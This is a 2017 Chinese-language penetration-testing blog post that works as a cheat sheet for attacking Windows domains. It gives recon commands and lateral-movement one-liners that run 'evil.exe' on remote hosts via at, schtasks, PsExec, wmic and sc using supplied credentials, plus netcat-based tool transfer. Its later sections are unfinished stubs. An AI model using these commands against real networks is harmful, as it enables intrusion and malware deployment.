 ```yaml
---
typora-root-url: ../img
layout:     post
title:      "内网安全之域渗透"
subtitle:   "内网姿势系列  # 多坑待填"
date:       2017-06-09 21:19 +0800
author:     "gsfish"
header-img: "img/post-bg-hacker.jpg"
tags:
    - 内网安全
    - 渗透
---
```



内网姿势系列：

* [内网安全之 ARP 欺骗](/2016/06/23/lan-attack-cookie-hijack/)


# 0x00 整体思路（持续更新）

![01.png](/img/domain-pentest-note/01.png)

# 0x01 环境判断（DOMAIN / WORKGROUP）

```
net time /domain
net config workstation
systeminfo
ipconfig /all
```

# 0x02 信息收集

```
net view /domain<:DOMAIN>
net user /domain
net group /domain
net accounts /domain
nslookup
dsquery
```

# 0x03 域内

## 域内运行命令

一、计划任务

1) AT

```
copy evil.exe \\<HOST>\c$\windows\temp\evil.exe  # 上传恶意文件
at \\<HOST> 15:00 c:\windows\temp\evil.exe
```

2) SCHTASKS

```
schtasks /create /tn boom /tr c:\windows\temp\evil.exe /sc once /st 00:00 /s <HOST> /ru system
schtasks /run /tn boom /s <HOST>
schtasks /delete /tn boom /f /s <HOST>  # 清除任务
```

二、PsExec

1) 建立 IPC$ 连接后

```
psexec \\<HOST> -c evil.exe
```

2) 在 PsExec 的参数中指定账号密码

```
psexec.exe \\<HOST> –accepteula -u <USERNAME> -p <PASSWORD> -c evil.exe
```

三、WMIC 远程运行命令

```
copy evil.exe \\<HOST>\c$\windows\temp\evil.exe
wmic /node:<HOST> /user:administrator /p <PASSWORD> process call create c:\windows\temp\evil.exe
```

四、SC 创建服务执行

1) 系统权限（其中 `boom` 为服务名）

```
sc \\<HOST> create boom binpath= c:\evil.exe
sc \\<HOST> start boom
sc \\<HOST> delete boom
```

2) 指定用户权限启动

```
sc \\<HOST> create boom binpath=c:\evil.exe obj=<DOMAIN>\administrator passwrod=<PASSWORD>
sc \\<HOST> start boom
```

## 域内的文件操作

一、利用 IPC$

```
net use \\<HOST>\IPC$
copy evil.exe \\<HOST>\c$\
```

二、利用 Telnet

服务端：

```
nc -lvp 23 < nc.exe
```

下载端：

```
telnet <HOST> -f c:\nc.exe
```

三、利用文件共享

```
net use x: \\<HOST>\<SHARE> <PASSWORD> /user:<DOMAIN>\<USERNAME>
```


# 0x04 拿下域控

// TODO


# 0x05 Hash dump

// TODO


# 0x06 权限维持

// TODO


# 参考文献

1. [域渗透基础简单信息收集（基础篇）[EB/OL]. https://xianzhi.aliyun.com/forum/read/805.html](https://xianzhi.aliyun.com/forum/read/805.html)
2. [Tomato. windows内网渗透杂谈[EB/OL]. https://bl4ck.in/penetration/2017/03/20/windows内网渗透杂谈.html](https://bl4ck.in/penetration/2017/03/20/windows内网渗透杂谈.html)
